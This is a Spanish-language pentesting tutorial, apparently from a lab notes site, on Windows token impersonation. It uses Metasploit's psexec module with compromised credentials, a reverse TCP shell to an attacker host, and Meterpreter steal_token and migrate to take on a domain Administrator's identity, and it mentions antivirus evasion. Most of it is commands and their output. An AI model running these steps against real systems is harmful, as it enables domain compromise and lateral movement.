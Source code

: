 ```yaml
---
icon: blog
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Token impersonation

Esta tecnica se vaya en obtener el `Token` de acceso de un usuario en las `logon sessions` y utilizar dicho `token` para suplantarlo como dicho usuario y ejecutar cosas como dicho usuario, explicado asi de forma resumida.

Para ello vamos a utilizar `metasploit` ya que contiene `meterpreter` un comandito que facilita todo esto.

Si no tenemos `metasploit` instalado, lo instalaremos de la siguiente forma:

```shell
sudo apt install metasploit-framework
```

Entramos dentro del el, de la siguiente forma:

```shell
msfconsole -q
```

Pongamos que hemos comprometido las credenciales del usuario `empleado1` que seria `Passw0rd2` y tendremos que desactivar el antivirus del equipo `empleado1`, lo podriamos hacer con un codigo ofuscado con `msfvenom` o haciendo un `bypass` del antivirus, pero vamos hacerlo de forma sencilla para que se vea bien, por lo que lo desactivaremos y haremos lo siguiente:

```shell
use exploit/windows/smb/psexec
```

Esto lo estamos haciendo dentro del `metasploit` por que quiero utilizar el `meterpreter` ya que tiene unos comandos bastante sencillitos para realizar la tecnica de `Token impersonation`.

Una vez dentro del modulo, haremos lo siguiente:

```shell
set RHOSTS 192.168.5.208
set SMBDOMAIN CORP
set SMBPASS Passw0rd2
set SMBUSER empleado1
set LHOST 192.168.5.205
set LPORT 7777
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] 192.168.5.208:445 - Connecting to the server...
[*] 192.168.5.208:445 - Authenticating to 192.168.5.208:445|CORP as user 'empleado1'...
[*] 192.168.5.208:445 - Selecting PowerShell target
[*] 192.168.5.208:445 - Executing the payload...
[+] 192.168.5.208:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 192.168.5.208
[*] Meterpreter session 1 opened (192.168.5.205:7777 -> 192.168.5.208:55999) at 2025-01-25 06:45:59 -0500

meterpreter >
```

Y vemos que nos creo una `shell` adecuadamente con `meterpreter`.

Si vemos que usuario somos:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Vemos que somo el `AUTHORITY\SYSTEM` ya que este usuario tiene privilegios de `administrador` en la maquina de forma local, por lo que `metasploit` ya se encarga de escalar y darnos dicho usuario.

Pero a nivel de `dominio` seremos un usuario normal en este caso, por lo que vamos a iniciar un `PowerShell` como el usuario `Administrador` pero del `dominio` para que se cree un `Token` de acceso con dicho usuario en la maquina de `empleado1`.

Una vez echo esto anterior, si volvemos a `metasploit` haremos lo siguiente:

```shell
meterpreter > ps
```

Poniendo eso, veremos todos los procesos que se estan corriendo en la maquina y si observamos la siguiente linea de proceso:

```
3140  4036  powershell.exe               x64   1        CORP\Administrator            C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Vemos que hay un `PowerShell` como el usuario `Administrador` de dominio corriendo en ese equipo.

Ahora lo que vamos hacer es robar el `token` del proceso que queremos en mi caso del `3140`, por lo que haremos lo siguiente:

```shell
meterpreter > steal_token 3140
```

Info:

```
Stolen token with username: CORP\Administrator
```

Como vemos ha funcionado y estaremos autenticado bajo ese usuario, si probamos a ver que usuario somos ahora:

```shell
meterpreter > getuid
Server username: CORP\Administrator
```

Veremos que somos el usuario `administrador` del dominio, por lo que habremos comprometido la maquina completamente.

Pero a parte de robar el `token` lo que tambien podremos hacer es migarar al proceso que queremos donde el usuario esta ejecutando ese proceso del cual queremos ser entre comillas que va a estar autenticado con su `token` de acceso.

Tendremos que hacer lo siguiente:

```shell
meterpreter > migrate 3140
```

Info:

```
[*] Migrating from 3812 to 3140...
[*] Migration completed successfully.
```

Ahora si vemos que usuario somos:

```shell
meterpreter > getuid
Server username: CORP\Administrator
```

Vemos que somos el usuario `Administrador` del dominio de nuevo.

Pero es mas recomendable robar el `Token`de acceso para un caso practico real.
